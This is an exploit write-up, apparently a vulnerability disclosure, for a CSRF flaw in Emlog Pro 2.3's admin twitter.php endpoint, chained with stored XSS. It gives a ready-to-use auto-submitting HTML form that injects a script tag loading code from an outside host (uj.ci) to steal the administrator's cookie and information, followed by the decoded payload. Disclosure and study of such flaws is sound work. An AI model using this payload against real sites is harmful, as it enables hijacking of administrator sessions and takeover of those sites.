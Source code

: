 # Emlog Pro 2.3 twitter.php has CSRF and works with XSS to get administrator information

- **Exploit Title:** Emlog Pro 2.3 has CSRF and works with XSS to get administrator information
- **Date:** 2024-04-01
- **Exploit Author:** shuo sheng,jixin zhang
- **Vendor Homepage:** https://www.emlog.net/
- **Software Link:**https://oss.emlog.net/download/release/emlog_pro_2.3.1.zip
- **Version:** pro2.3

burp to grab the packet

url:http://127.0.0.1/emlog/admin/twitter.php

![image-20240402165413236](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240402165413236.png)

Use BurpSuite to generate CSRF-POCs, copy them, and test them with a browser or HTML

利用burpsuite生成csrf-poc,复制，用浏览器或者html测试

![image-20240402165504314](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240402165504314.png)

Paste the address generated by burpsuite, create a test, and the test is successful

粘贴burpsuite生成的地址，创建了一个test，测试成功

![image-20240402165556761](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240402165556761.png)

Due to the XSS vulnerability here, it can be used with XSS to obtain the administrator cookie and information, and the reproduction process is as follows:

Create a 1.html

payload:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://127.0.0.1/emlog/admin/twitter.php?action=post" method="POST">
      <input type="hidden" name="t" value="&lt;sCRiPt&#32;sRC&#61;&#47;&#47;uj&#46;ci&#47;szi&gt;&lt;&#47;sCrIpT&gt;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

Triggered when an administrator accesses a 1.html

```html
<sCRiPt sRC=//uj.ci/szi></sCrIpT>
```

Malicious code is executed, and administrator information is obtained

![image-20240402170318880](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20240402170318880.png)